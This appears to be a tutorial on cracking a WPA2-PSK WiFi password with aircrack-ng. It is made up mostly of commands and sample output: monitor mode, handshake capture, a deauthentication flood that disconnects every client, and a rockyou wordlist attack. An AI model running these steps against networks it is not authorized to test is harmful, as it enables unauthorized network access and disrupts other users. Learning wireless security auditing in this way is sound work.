 # Cracking WiFi WPA2-PSK2 with aircrack-ng

In order to crack WPA2-PSK2, you will need an adapter that can be put into Monitor mode. Most internal WiFi adapters cannot, so you will likely need a USB adapter. I use an [Alfa AUS036ACM](https://amzn.to/4dHXJ62) which works out of the box with Kali Linux. You can also view the full list of [supported adapters](https://www.aircrack-ng.org/doku.php?id=compatible_cards).

`lsusb` will show you connected USB devices. `ip a` or `ifconfig` will show you adapters. Finally `iwconfig` will show you WiFi adapters and whether or not they are in Monitor mode.

```sh
> iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

To view all WiFi APs in range, you can use `iwlist wlan0 scan`.

## Switching into Monitor Mode

```sh
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```
Note that this changes `wlan0` to `wlan0mon`.

## Capturing Frames

```sh
sudo airodump-ng wlan0mon
```
Hit `CTRL+C` once you find the access point that you want to attack and note the BSSID and channel so that we can use it.

## Dump traffic from the access point

```sh
sudo airodump-ng --bssid C2:57:0B:9D:48:AE -c 9 --write spark.dump wlan0mon
```

Once a client connects, you will see `WPA handshake` at the top of the output. You can `CTRL+C` to quit.

```txt
CH  9 ][ Elapsed: 4 mins ][ 2024-08-12 18:05 ][ WPA handshake: C2:57:0B:9D:48:AE

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 C2:57:0B:9D:48:AE  -20 100     2326       65    0   9  360   WPA2 CCMP   PSK  Spark-Guest

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 C2:57:0B:9D:48:AE  F6:2B:45:62:2E:EE  -27    6e- 6e     0      721  EAPOL  Spark-Guest
Quitting...
```

If a client does not connect in a reasonable amount of time, you can kick everyone off the network by sending a `dauth` and having them reconnect. In another terminal window,

```sh
sudo aireplay-ng --deauth 100 -a C2:57:0B:9D:48:AE wlan0mon
```

When you are done, you will find five files created in the current directory. The `cap` file contains the captured handshake.

```txt
spark.dump-01.cap
spark.dump-01.csv
spark.dump-01.kismet.csv
spark.dump-01.kismet.netxml
spark.dump-01.log.csv
```

## Cracking the password

```sh
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b C2:57:0B:9D:48:AE spark.dump-01.cap
```

This will go through the possibilities in the wordlist and use them to attempt to find the key which I have removed in the output below 😊.

```txt
                               Aircrack-ng 1.7

      [00:00:03] 17264/14344392 keys tested (6309.92 k/s)

      Time left: 37 minutes, 50 seconds                          0.12%

                           KEY FOUND! [ ******** ]


      Master Key     : 3C D2 15 84 1D B5 F5 26 F4 73 94 09 0F A0 C2 36
                       2A 87 69 E4 E8 2D FA 80 09 5B A3 75 D5 68 31 EE

      Transient Key  : A8 6C 34 59 6D 78 DD D4 0E DF 73 7E D9 4C 35 48
                       75 C2 E7 F3 FD E1 70 D2 8C 78 FF 9D BA EC 17 E9
                       4E 25 91 AA 2F 8E 03 4C BC 48 63 1A CB B9 48 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : 1B BB D0 54 AF FB 0E 2B 77 DB 77 A4 62 27 DC 25
```

